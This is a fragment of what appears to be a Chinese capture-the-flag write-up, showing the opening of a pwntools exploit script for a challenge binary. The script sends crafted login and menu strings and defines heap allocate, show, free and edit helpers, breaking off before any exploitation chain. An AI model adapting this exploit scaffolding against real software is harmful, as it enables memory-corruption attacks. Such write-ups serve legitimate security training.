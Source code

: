 [![](assets/1699929779-24595f61cdc78618598e2a759d28e9ed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001511-28b1c74c-7f1b-1.png)

完整 exp：

```bash
from pwn import *
ex = "./pwn"
#context.log_level='debug'
p = process(ex)
elf = ELF(ex)

libc = elf.libc


p.send("LOGIN | r00t QWB QWXFadmin")
#gdb.attach(p,"b *$rebase(0x1DF3)")
#pause()
def dbg():
    gdb.attach(p)
    pause()

def cat(choice):
    p.sendafter("mew mew mew~~~~~~\n","CAT | r00t QWB QWXF$\xff\xff\xff\xff")
    p.sendlineafter("plz input your cat choice:\n",str(choice))

def add(idx,size,content):
    cat(1)
    p.sendlineafter(":",str(idx))
    p.sendlineafter(":",str(size))
    p.sendafter(":",content)


def show(idx):
    cat(3)
    p.sendlineafter(":",str(idx))

def free(idx):
    cat(2)
    p.sendlineafter(":",str(idx))



def edit(idx,content):
    cat(4)
```